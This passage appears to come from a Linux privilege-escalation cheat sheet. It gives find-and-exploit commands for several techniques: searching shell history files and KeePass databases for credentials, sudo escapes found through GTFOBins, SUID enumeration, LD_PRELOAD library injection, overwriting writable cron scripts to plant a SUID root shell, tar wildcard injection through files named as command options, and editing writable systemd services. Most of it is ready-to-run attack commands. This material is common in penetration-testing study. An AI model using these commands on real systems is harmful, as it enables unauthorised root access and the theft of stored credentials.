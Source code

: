     ```bash
    # Find all shell history files and search for keywords
    find / -name ".*_history" -ls 2>/dev/null | xargs -I {} cat {} | grep -E "(sudo|su|passwd)"
    # Look for KeePass password databases
    find / -name "*.kdbx" -ls 2>/dev/null
    ```

---

#### **2. Sudo & SUID/SGID Deep Dives**
* **Sudo Misconfigurations & GTFOBins:**
    * **Find:** `sudo -l`
    * **Exploit:** Go to **GTFOBins** (https://gtfobins.github.io/). Search for the binary listed in the `sudo -l` output and use the provided command.
        ```bash
        # If 'sudo -l' allows running 'less':
        sudo less /etc/profile
        # Then inside less, type: !/bin/sh
        ```
* **SUID / SGID Binaries:**
    * **Find:** `find / -perm -u=s -type f 2>/dev/null`
    * **Exploit:** Check the list for unusual programs. Use **GTFOBins** to find the exploit method.
* **Advanced Sudo Abuse: LD_PRELOAD:**
    * **Find:** `sudo -l | grep "env_keep.*LD_PRELOAD"`
    * **Exploit:** Create a malicious shared library C file (`preload.c`), compile it with `gcc -fPIC -shared -o /tmp/preload.so preload.c`, then run a sudo command with `LD_PRELOAD` pointing to your library: `sudo LD_PRELOAD=/tmp/preload.so <command_from_sudo_-l>`

---

#### **3. Abusing Services & Scheduled Tasks**
* **Cron Job & File Permission Abuse:**
    * **Find:** `cat /etc/crontab` and `ls -l /path/to/cron/script.sh`
    * **Exploit:** If the script is writable, overwrite it with your payload.
        ```bash
        echo 'cp /bin/bash /tmp/rootshell; chmod +s /tmp/rootshell' > /path/to/writable/script.sh
        # Wait for the job to run, then execute: /tmp/rootshell -p
        ```
* **Wildcard Injection:**
    * **Find:** Look for cron job scripts using commands like `tar *` in a writable directory.
    * **Exploit (for `tar`):** Create files named after command-line options.
        ```bash
        touch -- "--checkpoint=1"
        touch -- "--checkpoint-action=exec=/bin/sh"
        ```
* **Systemd Timers:**
    * **Find:** `systemctl list-timers --all`, then `systemctl cat <service_name>.service` to check the service file.
    * **Exploit:** If the service file (`/etc/systemd/system/name.service`) is writable, modify the `ExecStart=` line to execute your payload.

---